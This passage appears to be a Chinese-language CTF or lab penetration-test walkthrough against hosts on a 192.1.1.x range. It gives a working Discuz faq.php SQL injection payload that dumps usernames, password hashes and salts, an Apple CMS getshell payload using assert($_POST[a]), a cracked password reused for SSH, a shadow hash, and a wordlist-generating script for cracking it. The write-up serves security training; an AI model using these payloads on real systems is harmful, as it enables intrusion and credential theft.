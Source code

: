 一句话的路径在[http://192.1.1.14/config.inc.php](http://192.1.1.14/config.inc.php) ，密码是cmd<br>
于是可以获取到信息点的flag

使用下列语句注入出info4的后台登录账号密码和盐salt的值<br>
/faq.php?action=grouppermission&amp;gids[99]=’&amp;gids[100][0]=) and (select 1 from (select count(**),concat((select concat(username,0x3a,password,0x3a,salt,0x23) from ucenter.uc_members limit 0,1),floor(rand(0)**2))x from information_schema.tables group by x)a)%23<br>
得到<br>
info4:6f6decc4a51d89665f38cec4bc0ca97d:e114251<br>
密码的加密方式是<br>
$salt = substr(uniqid(rand()), -6);//随机生成长度为6的盐<br>
$password = md5(md5($password).$salt);//discuz中密码的加密方式<br>
直接拿去md5网站解密得到rampage<br>
后来发现这个账号密码也是info4的ssh的登录账号密码

### <a class="reference-link" name="%E6%B8%97%E9%80%8Finfo1%E2%80%94%E8%8B%B9%E6%9E%9Ccms%20ip%E4%B8%BA192.1.1.11"></a>渗透info1—苹果cms ip为192.1.1.11

存在命令执行漏洞<br>
漏洞原理参见[https://www.cnblogs.com/test404/p/7397755.html](https://www.cnblogs.com/test404/p/7397755.html)<br>
getshell的payload是<br>[http://192.1.1.11/index.php?m=vod-search&amp;wd=`{`if-A:assert($_POST[a])`}``{`endif-A`}`](http://192.1.1.11/index.php?m=vod-search&amp;wd=%7Bif-A:assert(%24_POST%5Ba%5D)%7D%7Bendif-A%7D)<br>
得到webshell之后可以看到score1shadow_backup文件和<br>
password_is_phone_num13993xxxxxx，知道密码开头的五位数是13993<br>
然后shadow文件里面是score1的密码密文<br>
$6$xNmo17Zn$4GqSN/zccHMud9uJgY7kGhU4W.ss4fMxQ9yNsQ/oWubYWE0xHf9.BuD5umI0wUhj8s2J1kH0L0JfhFEKu8u52/:17465:0:99999:7:::<br>
然后写脚本生成6位数的字典<br>
[代码]

```
f=open('zidian.txt','w')
for i in range(0,1000000):
    length=len(str(i))
    if(length==1):
        tmp='00000'+str(i)
    if(length==2):
        tmp='0000'+str(i)
    if(length==3):
        tmp='000'+str(i)
    if(length==4):
        tmp='00'+str(i)
    if(length==5):
        tmp='0'+str(i)
    if(length==6):
        tmp=str(i)
    f.write('13993'+tmp+'r')

f.close()
```

